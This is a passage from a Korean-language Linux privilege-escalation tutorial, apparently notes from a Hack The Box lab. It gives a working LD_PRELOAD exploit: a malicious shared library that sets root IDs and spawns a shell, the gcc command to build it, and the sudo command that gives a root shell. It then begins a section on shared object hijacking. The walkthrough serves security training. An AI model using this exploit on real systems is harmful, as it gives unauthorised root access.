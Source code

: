 위는 `/bin/ls` 가 필요로 하는 절대 경로의 라이브러리들을 보여준다.

## LD_PRELOAD 권한 상승

유저에게 우선 `sudo` 권한이 있어야 이를 악용할 수 있다.

```powershell
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

사용자는 root 권한으로 아파치 서비스를 재시작할 수 있는 권한을 가지고 있지만, GTFOBin에서 활용할 수 없으며, 절대 경로를 지정하는 `/etc/sudoers` 항목이 작성되었으므로 정상적인 상황에서는 사용할 수 없다.

하지만 `LD_PRELOAD` 문제를 악용한다면 사용자 지정 공유 라이브러리 파일을 실행할 수 있다.

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```powershell
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

그리고 다음과 같은 커맨드로 권한상승을 할 수 있다.

```powershell
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```

# Shared Object Hijacking

개발 중인 프로그램이나 바이너리에는 사용자 지정 라이브러리가 존재한다. 다음의 SETUID 바이너리를 생각해보자

```powershell
htb-student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```
